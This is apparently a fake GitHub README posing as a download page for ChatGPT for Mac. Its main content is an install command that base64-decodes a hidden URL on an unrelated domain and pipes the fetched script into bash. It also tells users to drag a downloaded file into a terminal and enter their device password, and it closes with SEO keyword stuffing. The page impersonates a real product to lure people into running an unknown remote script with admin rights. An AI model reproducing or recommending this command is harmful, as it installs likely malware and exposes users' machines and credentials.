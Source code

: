 # ChatGPT Plus for Mac Download

![ChatGPT for Mac](https://techcrunch.com/wp-content/uploads/2024/06/chatgpt-mac.jpg?resize=1200,672)

---

## 📥 Download

[![⬇️ Download Now](https://img.shields.io/badge/ChatGPT-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/chatgpt)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🤖 What is ChatGPT for Mac?

**ChatGPT for Mac** is the official macOS desktop application developed by OpenAI, allowing users to seamlessly interact with one of the world’s most advanced language models—right from their Mac desktop. The app provides a native interface for real-time AI-powered assistance, eliminating the need to open a web browser. It's a lightweight, responsive, and highly integrated experience that brings the full capabilities of ChatGPT to your local macOS environment.

With ChatGPT for Mac, users can write, code, summarize, translate, plan, brainstorm, and more—all within a clean, distraction-free window. Whether you're a writer creating compelling content, a developer debugging code, a student researching complex topics, or a business user drafting emails or documents, ChatGPT adapts to your needs and saves you time.

This app supports GPT-3.5 for free users and unlocks GPT-4 capabilities for ChatGPT Plus subscribers. Users can also access **custom GPTs**, explore **memory-based conversations**, and sync their usage across multiple devices with their OpenAI account. The app includes convenient features like conversation history, theme support (light/dark), and system-level keyboard shortcuts for quick access.

Fully optimized for **Apple Silicon (M1, M2, M3)** and macOS versions including **Sonoma**, **Ventura**, and **Monterey**, ChatGPT for Mac offers blazing-fast performance and native system integration. It works perfectly on both Intel and ARM-based Macs and adapts its interface based on system appearance. Thanks to its minimal resource usage and efficient caching, the app delivers a responsive AI experience even with multiple conversations running.

Whether you're using it for creative inspiration, research, writing, education, personal productivity, or technical problem-solving, **ChatGPT for Mac** is an essential tool that brings the power of artificial intelligence directly into your macOS workflow—without compromise.

---

## 💻 Compatibility

- macOS 12 Monterey and newer
- Full support for **macOS Ventura** and **Sonoma**
- Optimized for **Apple Silicon (M1/M2/M3)**
- Compatible with Intel Macs
- Native support for Dark Mode

---

## 🖼️ Preview

![App Preview](https://techcrunch.com/wp-content/uploads/2024/11/openai-square.jpg?w=1024)

---

## ✨ Features

- Ask questions, write code, brainstorm ideas
- Access GPT-3.5 or GPT-4 (Plus included)
- Clean, distraction-free desktop interface
- Custom GPT support
- Secure login with OpenAI account
- Keyboard shortcut for instant access
- Saves and syncs conversation history
- Light and dark theme support

---

## 🔑 Keywords

`chat gpt mac`, `chat gpt for mac`, `download chat gpt for mac`,  
`chatgpt download mac`, `chat gpt download mac`, `chat gpt app for mac`,  
`chatgpt download for mac`, `chat gpt app mac`, `chat gpt mac app`,  
`chat gpt mac download`, `chat gpt download for mac`, `chat gpt for mac download`

---

